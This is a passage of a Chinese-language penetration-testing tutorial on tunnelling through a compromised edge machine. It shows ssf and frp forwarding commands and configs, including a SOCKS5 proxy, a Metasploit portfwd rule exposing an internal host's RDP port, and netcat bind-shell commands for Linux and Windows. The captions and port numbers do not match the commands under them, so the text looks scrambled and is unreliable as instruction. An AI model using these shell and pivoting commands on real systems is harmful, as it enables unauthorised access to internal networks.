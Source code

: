 边缘机器开启 1333 端口

```
ssf.exe ‐F 12345 ‐p 1234 192.168.10.3
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTQwoSdXPCxhkFMSYcaB5xOWu9LI9KBQFzU1vlzRfuzTPaFrXrljDyoQ/640?wx_fmt=png)

攻击机连接边缘机器的 1333 端口，并将数据转发给 1222 端口

```
[common]
bind_port = 6666
```

```
frps.exe -c frps.ini
```

2008r2 出问题，换到物理机上执行

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTQf8bgfRXicSzy1Uyn5mwLbxXhM5juHcMo59D0pUzDoUJOAsu8JKwI3A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTXoqEEpnKT7Nvxm44U6mJl5elTgnYZr9XR8UUpxrpYk5k1tC8iaReqjg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTnia1ianPApWkG3wFA87Dd8yyXojJsBQA3ZAqWQicqYicJSZNvRxF1eIyBQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTN5XkS2TO3ELVSdJapgfGFsnVlnCQI39rCbyW2ugxLXiaPIsjCcQfWsQ/640?wx_fmt=png)

2. 反向连接

攻击机本地监听 1234 端口，命令如下：

```
[common]
server_addr = 192.168.10.3
server_port = 6666
[http_proxy]
type=tcp
remote_port=7777
plugin=socks5
```

```
set version 4a
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfT5vrtA8SviaEJGk6icven7bCOj579fgCGYPmlH2mjkOwfz2UtWh3zTvZg/640?wx_fmt=png)

边缘机器连接 1234 端口，并将数据转发到 12345 端口，命令如下：  

```
portfwd add -l 3389 -r 192.168.52.138 -p 3389
```

```
nc -lvp 4444 -e /bin/sh linux
nc -lvp 4444 -e c:\windows\system32\cmd.exe windows
```
